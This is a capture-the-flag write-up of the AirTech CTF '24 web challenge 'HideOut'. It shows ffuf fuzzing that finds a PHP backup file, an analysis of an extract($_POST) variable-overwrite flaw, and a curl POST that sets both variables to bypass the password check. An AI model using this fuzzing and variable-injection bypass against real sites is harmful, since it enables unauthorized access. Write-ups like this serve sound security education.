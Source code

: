 ```yaml
---
title: AirTech CTF '24 Final - Web - HideOut
date: '2024-03-02'
tags: ['AIRTECH24', 'WEB','PHP', 'HideOut','LOGINBYPASS']
draft: false
---
```


### Description:
> Evil-Corp launched their public website for users to access their data. Unfortunately, BANDITS hackers breached the admin account and stole sensitive information.

![challenge discription](/static/writeups/airtech/HideOut/chall_discription.png)

Starting with a simple analysis, we observed a static web page with a single input field designed for entering a secret password.

![index page](/static/writeups/airtech/HideOut/secretpass.png)

Analyzing the source code, console, and other elements on the client side, we found nothing. After digging for some time, I discovered that we could fuzz this site. Initially, we obtained no results, but after fuzzing for common PHP pages, we found a backup file named `index.php.bak`
### Command:
```bash
ffuf -u http://170.187.248.180:3001/FUZZ -w /usr/share/secLists/Discovery/Web-Content/Common-PHP-Filenames.txt
```
![fuzzing with ffuf](/static/writeups/airtech/HideOut/bak-file.png)

By requesting to that file
### URL:
```bash
http://170.187.248.180:3001/index.php.bak
```
### Source Code: 

![php source code](/static/writeups/airtech/HideOut/source-code.png)

### PHP Code Analysis
```python
<?php
include 'flag.php';

if($_SERVER['REQUEST_METHOD'] == "POST"){
    $fani = rand();
    extract($_POST);
    
    if($secretpasswd == $fani){
        echo('<h1><div class="alert alert-success centered" role="alert"> Flag: '.$flag.' </div></h1>');   
    }else{
        echo('<h1><div class="alert alert-danger centered" role="alert">hehehe, wrong Password!</div></h1>');   
    }    
die;
}
?>

```
Let's break down the code:

- include `flag.php`;: This line includes the contents of the `flag.php` file. The assumption is that this file contains  flag or secret password that the user.

- if`($_SERVER['REQUEST_METHOD'] == "POST"){`: This conditional statement checks if the HTTP request method is POST. The code within this block will execute only if the form is submitted using the POST method.

- `$fani = rand();`: Generates a random number and assigns it to the variable $fani. This value will be used as a reference point for comparison.

- `extract($_POST);`: Extracts variables from the POST data. This is a potentially risky operation as it creates variables from the keys of the associative array `$_POST`.

- if`($secretpasswd == $fani){`: Compares the value submitted in the 'secretpasswd' field with the random value stored in $fani.

- Inside the if block, if the submitted password matches the generated random value, it echoes a success message along with the flag `($flag)`. If not, it echoes an error message.

- `die;`: Terminates the script execution immediately after processing the form, preventing any further code execution.

### Potential issues with the code:

- The use of `extract($_POST)`; can be risky and may lead to security vulnerabilities if not handled carefully.

> PHP has a function named `extract()` to take all provided GET and POST requests and assign them to internal variables. Developers will, at times, use this function instead of manually assigning `$_POST[var1]` to `$var1`. This function will overwrite any previously defined variables, including server variables. `Extract()` has options which prevent overwriting previously-defined variables, however this safety is not enabled by default, and developers might not enable the safety, just as many do not perform input validation. This vulnerability is similar in design to the register globals vulnerabilities present in PHP.

[Source](https://github.com/HackThisSite/CTF-Writeups/blob/master/2016/SCTF/Ducks/README.md)


So, our current objective is to set `$secretpasswd` equal to the same value as `$fani`. We can achieve this by crafting a cURL request, as illustrated below.

```bash
curl http://170.187.248.180:3001/index.php  --data 'secretpasswd=t&fani=t'
```
### Response
![flag](/static/writeups/airtech/HideOut/flag.png)


Hence, we obtained our flag, marking our first blood in this challenge. Got a Bugcrowd sticker too! xD.

### ***kh4tt4k***

### Peace! 👋👋👋

